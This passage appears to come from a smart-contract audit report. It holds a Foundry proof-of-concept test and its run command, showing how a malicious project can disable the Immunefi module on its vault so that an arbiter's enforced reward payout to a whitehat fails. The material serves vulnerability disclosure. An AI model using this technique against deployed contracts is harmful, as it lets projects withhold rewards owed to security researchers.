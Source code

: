 ```sol
            address(vault),
            0,
            abi.encodeCall(vault.disableModule, (address(0x1), address(immunefiModule))),
            Enum.Operation.Call,
            0,
            0,
            0,
            address(0),
            payable(0),
            disableImmunefiModuleSignature
        );

        // 3. Critical issue gets fixed/resolved and protocol owner deactivates emergency shutdown.
        vm.prank(protocolOwner);
        emergencySystem.deactivateEmergencyShutdown();

        // 4. Whitehat approves spending the fee amount for an arbitration.
        vm.startPrank(whitehat);
        token.approve(address(arbitration), arbitration.feeAmount());
        vm.stopPrank();

        // 5. Whitehat signs request for arbitration
        bytes memory signature = _signData(
            whitehatPk,
            arbitration.encodeRequestArbFromWhitehatData(referenceId, address(vault))
        );

        // 6. Whitehat requests arbitration and pays the fee.
        vm.prank(whitehat);
        arbitration.requestArbWhitehat(referenceId, address(vault), whitehat, signature);

        vm.deal(address(vault), 110 ether);
        bytes32 arbitrationId = arbitration.computeArbitrationId(referenceId, address(vault), whitehat);

        // 7. Arbiter enforces sending reward to the whitehat.
        //    The txn fails since the malicious project has disabled ImmunefiModule which results in GS104 error.
        vm.startPrank(arbiter);
        arbitration.enforceSendRewardWhitehat(
            arbitrationId,
            new Rewards.ERC20Reward[](0),
            100 ether,
            vaultDelegate.UNTRUSTED_TARGET_GAS_CAP(),
            true
        );
        vm.stopPrank();
    }
```

Run the PoC via:

```sh
forge test --mt "testMaliciousProjectCanCauseSendRewardToFailAfterEmergencyShutdown" -vvvvv
```

